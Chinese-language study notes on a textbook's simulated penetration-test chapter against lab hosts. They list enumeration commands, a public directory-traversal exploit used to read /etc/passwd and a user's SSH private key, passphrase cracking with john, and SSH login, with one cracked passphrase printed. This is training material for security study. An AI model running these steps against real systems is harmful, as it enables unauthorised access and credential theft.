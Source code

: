 本篇对应教材第24章，将之前学习的技术组合使用，模拟一次渗透攻击。主要内容“枚举”、“获得同网段机器权限”、“访问内部网络”、“获取内部网络”、“攻击内部WEB应用”和“获得域控”，记录使用工具和命令

## 24.1 枚举

### 24.1.1MAILSRV01

两台机器WEBSRV01和MAILSRV01

mail01扫描

```armasm
sudo nmap -sC -sV -oN mailsrv1/nmap 192.168.50.242
gobuster dir -u http://192.168.50.242 -w /usr/share/wordlists/dirb/common.txt -o mailsrv1/gobuster -x txt,pdf,config
```

### 24.1.2 WEBSRV01

```armasm
sudo nmap -sC -sV -oN websrv1/nmap 192.168.50.244

whatweb http://192.168.50.244

wpscan --url http://192.168.50.244 --enumerate p --plugins-detection aggressive -o websrv1/wpscan
发现插件

searchsploit duplicator
```

## 24.2 获取同网段机器权限

```armasm
searchsploit -x 50420
```

目录遍历

```armasm
python3 50420.py http://192.168.50.244 /etc/passwd
python3 50420.py http://192.168.50.244 /home/daniela/.ssh/id_rsa
chmod 600 id_rsa
ssh -i id_rsa daniela@192.168.50.244
需要密码
```

```armasm
ssh2john id_rsa > ssh.hash
john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash
tequieromucho    (id_rsa) 
```

```armasm
ssh -i id_rsa daniela@192.168.50.244
```
